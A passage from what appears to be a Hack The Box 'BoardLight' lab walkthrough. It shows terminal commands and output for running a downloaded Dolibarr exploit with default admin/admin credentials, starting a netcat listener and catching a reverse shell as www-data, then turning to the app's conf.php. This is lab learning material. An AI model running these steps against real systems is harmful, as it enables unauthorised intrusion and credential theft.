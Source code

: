 ```sh

exploit.py                                                 100%[========================================================================================================================================>]  15.90K  --.-KB/s    in 0.003s  

2025-02-01 13:41:46 (6.02 MB/s) - ‘exploit.py’ saved [16280/16280]
```
{% endraw %}

<br />
Start a listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ sudo nc -nlvp 443                                        
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Run the exploit.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ python3 exploit.py http://crm.board.htb admin admin 10.10.16.12 443
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ sudo nc -nlvp 443                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.11] 46936
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```
{% endraw %}

<br />
Take a look at the conf.php file for the dolibarr app.
